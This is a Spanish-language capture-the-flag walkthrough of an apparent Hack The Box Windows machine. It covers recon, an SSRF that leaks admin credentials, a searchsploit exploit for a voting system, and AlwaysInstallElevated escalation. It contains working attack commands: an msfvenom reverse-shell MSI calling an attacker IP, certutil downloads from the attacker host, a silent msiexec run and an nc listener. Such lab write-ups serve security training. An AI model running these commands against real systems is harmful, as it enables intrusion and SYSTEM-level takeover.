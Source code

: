 ## Summary

Tags: #SQLI #SSRF #SearchSploit #WinPEAS #AlwaysInstalledElevated #Msfvenom #Windows #Apache #PHP #HTTPS #HTTP #FileTransfer #LinuxtoWindows #Dirbuster 

- IP -> 10.10.10.239
- Ports -> TCP (80, 135, 139, 445, 3306, 5000, 5440, 5986, 7680, 47001, 49664-70), UDP (idk)
- OS ->  Windows
- Services & Applications
    -  80 -> Apache httpd 2.4.46 

## Launchpad

-  [Launchpad](https://launchpad.net/ubuntu)
-  [WinPeas](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md)

## Recon

```bash 
❯ ping -c 1 IP              # Verificar conectividad con la maquina victima 
```

```bash 
❯ nmap -p- --open --min-rate 5000 -sS -vvv -Pn -n IP -oG AllPorts  # Escaneo de puertos a la IP

❯ nmap -p<Ports> -sCV IP -oN Targeted                              # Scripts y version de los puertos encontrados

❯ nmap --script http-enum -p80 IP    # Hacemos un escaneo de 'directorios' con un diccionario pequeño de 'nmap'
```

```bash 
❯ whatweb IP       # Miramos las tecnologias que corren en la web 

❯ dirb IP          # Encontramos la ruta del '/admin'

	# Podemos buscar vulnerabilidades con el nombre de la pagina 'Voting System' para ver si es un CMS
```

```bash 
❯ searchsploit votem system      # Mirar si existen exploits y probamos algunos exploits que nos llevan a la autenticacion en el 'votem system' como admin

❯ searchsploit -x php/webapps/49445.py
	# x = Examinar el contenido del archivo 

❯ searchsploit -m php/webapps/49445.py
	# m = Mover o traer el archivo a nuestra maquina de atacante 
```

## Otra manera

```bash 
# Con el puerto 443 abierto podemos enumerar los dominios 

❯ openssl s_client -connect IP:443     # Inspeccionar el certificado para poder encontrar mas dominios los cuales podemos agregar a la ruta '/etc/hosts' de nuestra maquina de atacante 
```

```bash 
# Encontramos en el dominio 'staging.love.htb' un escaner de archivos, el cual nos pide una URL. Por lo que colocamos la de nuestra maquina victima para probar.


❯ python3 -m http.server 80      # Creamos un servidor para recibir la peticion 


# Despues, hacemos peticiones desde la web hacia su 'localhost' por lo que se puede observar que existe un SSRF. Hacemos peticiones a los demas puertos http que encontramos en el escaneo con 'nmap' y en el 5000 encontramos un usuario y una passwd. 

# Nos dirigimos al 'panel admin' y colocamos las credenciales 
```

## User

```bash 
# Una vez dentro del panel de 'votem system' buscamos el exploit en 'searchsploit' que nos ayudara a hacer una 'revershell' con un usuario 'autenticado'. Usamos el exploit en 'python', modificamos los parametros que nos pide y lo ejecutamos. 
```

```bash 
# Una vez dentro buscamos la primer flag llamada 'user.txt' en el desktop del usuario 
```

```bash 
# Para buscar una forma de escalar privilegios es usando la herramienta de 'WinPeas' que lo podemos descargar desde la siguiente URL:

❯ https://github.com/peass-ng/PEASS-ng/releases/tag/20240728-0f010225
```

```bash 
# Compartimos el archivo a la maquina Windows 

❯ certutil.exe -f urlcache -split http://IP-Atacante/winPeas.exe winPeas.exe # Maquina victima descargaremos el ejecutable

❯ python3 -m http.server 80       # Maquina atacante creamos un servidor para compartir el ejecutable
```

## Root

```bash 
❯ winPeas.exe    # Ejecutamos el archivo para buscar las vulnerabilidades en Windows 
```

```bash 
# Depues de ejecutar el 'WinPeas', se observa que encuentra 'AlwaysInstalledElevated' donde:
	AlwaysInstalledElevated set to 1 in HKLM!
	AlwaysInstalledElevated set to 1 in HKCU!

# Podemos ir al recurso de 'hacktricks.xyz' para abusar de eso.
```

```bash 
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.53 LPORT=443 --platform windows -a x64 -f msi -o reverse.msi 

	# p = Payload 
	# platform = Plataforma de Windows 
	# a = Arquitectura 
	# f = Formato 
	# o = Output 

# Con esto nos crearemos una revershell en nuestra maquina de atacante para abusar del binario 'msi'
```

```bash 
# Compartimos el archivo a la maquina Windows 

❯ certutil.exe -f urlcache -split http://IP-Atacante/reverse.msi reverse.msi # Maquina victima descargaremos el ejecutable

❯ python3 -m http.server 80       # Maquina atacante creamos un servidor para compartir el ejecutable
```

```bash 
❯ msiexec /quiet /qn /i reverse.msi           # Ejecutamos de esta manera el archivo 'msi' en la maquina victima 
```

```bash 
❯ rlwrap nc -nlvp 443                          # Nos ponemos en escucha para recibir la revershell y ahora somos 'NT Authority\System' 
```